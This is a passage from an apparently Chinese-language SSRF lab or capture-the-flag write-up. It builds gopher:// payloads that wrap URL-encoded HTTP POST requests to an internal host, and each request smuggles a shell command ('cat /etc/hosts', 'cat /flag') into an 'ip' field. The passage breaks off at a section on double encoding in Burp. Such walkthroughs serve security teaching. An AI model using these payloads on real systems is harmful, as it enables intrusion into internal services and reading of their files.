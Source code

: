 

##### 网页使用1次url编码

在网页只使用1次url编码

```
gopher://172.72.23.24:80/_%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%32%37%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%0d%0a%69%70%3d%31%32%37%2e%30%2e%30%2e%31%3b%63%61%74%20%2f%65%74%63%2f%68%6f%73%74%73
```

![image-20240905104221190](https://image.201068.xyz/assets/29.SSRF/image-20240905104221190.png)

#### 查看flag

##### 构造payload

```bash
POST / HTTP/1.1
Host: 172.72.23.24
Content-Length: 26
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1;cat /flag
```

![image-20240905105757882](https://image.201068.xyz/assets/29.SSRF/image-20240905105757882.png)

##### 网页一次url编码

![image-20240905105937068](https://image.201068.xyz/assets/29.SSRF/image-20240905105937068.png)

```
%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%32%32%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%0d%0a%69%70%3d%31%32%37%2e%30%2e%30%2e%31%3b%63%61%74%20%2f%66%6c%61%67
```

###### gopher协议

```bash
gopher://172.72.23.24:80/_%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%32%32%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%0d%0a%69%70%3d%31%32%37%2e%30%2e%30%2e%31%3b%63%61%74%20%2f%66%6c%61%67
```

![image-20240905110235318](https://image.201068.xyz/assets/29.SSRF/image-20240905110235318.png)

##### burp 二次编码

